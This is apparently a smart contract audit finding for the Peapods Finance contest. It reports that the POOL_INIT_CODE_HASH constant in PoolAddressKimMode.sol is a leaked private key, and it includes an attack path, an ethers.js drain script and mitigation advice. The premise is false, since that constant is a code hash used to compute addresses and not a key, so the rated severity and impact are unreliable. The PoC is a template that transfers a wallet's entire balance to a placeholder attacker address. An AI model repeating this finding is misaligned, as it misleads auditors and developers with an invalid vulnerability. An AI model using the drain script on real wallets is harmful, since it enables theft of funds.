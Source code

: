 Rhythmic Azure Manatee

High

# An attacker will gain full control via PoolAddressKimMode leading to unauthorized fund withdrawals

### Summary

https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/contracts/contracts/libraries/PoolAddressKimMode.sol#L6

A private key is hardcoded in the `PoolAddressKimMode.sol` contract, which an attacker can easily extract and use to take full control of the associated wallet​. This exposure allows the attacker to drain all funds or execute arbitrary transactions from that wallet on the protocol’s behalf.

### Root Cause

In `PoolAddressKimMode.sol:6`, the private key is stored in the constant POOL_INIT_CODE_HASH. This means the secret key is embedded in the compiled contract bytecode, making it publicly accessible on-chain​. Anyone can read the blockchain data and obtain this hardcoded key.

### Internal Pre-conditions

1. The vulnerable contract is deployed with the current `POOL_INIT_CODE_HASH` value containing the private key.
2. An attacker is able to retrieve the contract’s on-chain bytecode (e.g. via an Ethereum node or block explorer) and locate the embedded key.

### External Pre-conditions

1. The pool’s wallet (controlled by the exposed private key) holds sufficient funds or valuable assets to motivate an attack.

### Attack Path

1. Extract the key: The attacker fetches the deployed contract’s bytecode and extracts the `POOL_INIT_CODE_HASH` constant value, which is the private key. This can be done using an RPC call like `eth_getCode` or by inspecting the bytecode on a blockchain explorer.
2. Import into wallet: Using the stolen key, the attacker imports it into a wallet or scripting environment (e.g. via web3/ethers libraries) to assume control of the corresponding address.
3. Take over funds: Now acting as the wallet owner, the attacker can transfer out all funds or perform any transactions from the pool’s address (since they possess the wallet’s private key credentials).

### Impact

- The protocol (and its users) would suffer a total loss of all funds held by the affected pool wallet. An attacker with the private key can instantly transfer out or reallocate the assets – in known incidents, wallets have been drained within seconds of key exposure​. Essentially, the attacker gains complete and irreversible control over the wallet and its funds.

### PoC

Below is a pseudocode example demonstrating how an attacker might exploit this issue by extracting the key and using it to withdraw funds:
```js
// Pseudocode: Extract key from contract bytecode and drain funds
const { ethers } = require("ethers");
const provider = new ethers.providers.JsonRpcProvider("<RPC_URL>");

// Address of the deployed PoolAddressKimMode contract
const contractAddress = "<PoolAddressKimMode_contract_address>";

// 1. Get the contract's runtime bytecode
const bytecode = await provider.getCode(contractAddress);

// 2. Extract the hardcoded private key (POOL_INIT_CODE_HASH) from the bytecode
// (In practice, one could search the bytecode for the known 32-byte value.)
const leakedKeyHex = "0x<HEX_VALUE_OF_POOL_INIT_CODE_HASH>";  // 32-byte private key in hex

// 3. Import the private key into an ethers Wallet (attacker now controls the pool wallet)
const compromisedWallet = new ethers.Wallet(leakedKeyHex, provider);
console.log("Compromised wallet address:", compromisedWallet.address);

// 4. Use the compromised wallet to send all funds to the attacker's address
const tx = await compromisedWallet.sendTransaction({
  to: "<attacker_address>", 
  value: await provider.getBalance(compromisedWallet.address)  // send all ETH
});
console.log("Funds drained in tx:", tx.hash);
```
This script illustrates that once the constant is obtained, the attacker can create a wallet instance with the private key and then freely transfer assets to their own address.

### Mitigation

1. Do not hardcode private keys: Never store private keys or other secrets directly in smart contract code. Anything on-chain is visible to the public and can be extracted by malicious parties.
2. Use secure key management: Keep keys in environment variables or a secure key management service, and pass them to the contract or application at runtime (or use external signing/oracles) instead of baking them into the contract. This way, the key is not exposed in the bytecode or repository.